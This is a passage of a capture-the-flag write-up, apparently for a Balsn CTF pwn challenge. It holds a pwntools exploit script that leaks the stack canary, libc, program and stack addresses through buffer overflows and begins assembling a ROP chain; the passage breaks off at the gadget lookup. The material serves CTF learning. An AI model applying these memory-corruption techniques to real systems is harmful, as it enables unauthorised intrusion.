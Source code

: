 

the remote docker use ubuntu 22.04

**and here is the commented(more or less)  exploit:**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./chall')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')	# libc from ubuntu 22.04

host, port = "asian-parents.balsnctf.com", "7777"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

def corrupt_parent(p, payload):
    p.sendlineafter('> ', '1')
    p.sendafter('> ', payload)
    p.sendlineafter('> ', '3')

def corrupt_child(p, payload):
    p.sendlineafter('> ', '0')
    p.sendafter('> ', payload)

# leak canary
p.sendafter('> ', 'A'*0x89)
p.recvuntil('A'*0x89)
canary = u64(b'\x00'+p.recv(7))
print('canary = '+hex(canary))
# leak libc retmain address to calculate libc base
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0x98)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0x98, drop=True)
libc.address = u64(p.recv(6)+b'\x00\x00') - 0x29d90
print('libc base = '+hex(libc.address))
# leak prog address to calculate prog base
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0xa8)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0xa8, drop=True)
exe.address = u64(p.recv(6)+b'\x00\x00') - 0x18ef
print('prog base = '+hex(exe.address))
# leak stack address, to know where our ROP is
p.sendlineafter('> ', '1')
p.sendafter('> ', 'A'*0xb8)
p.sendlineafter('> ', '2')
p.recvuntil('A'*0xb8, drop=True)
rop_address = u64(p.recv(6)+b'\x00\x00') - 0x110
print('rop stack address = '+hex(rop_address))



rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
```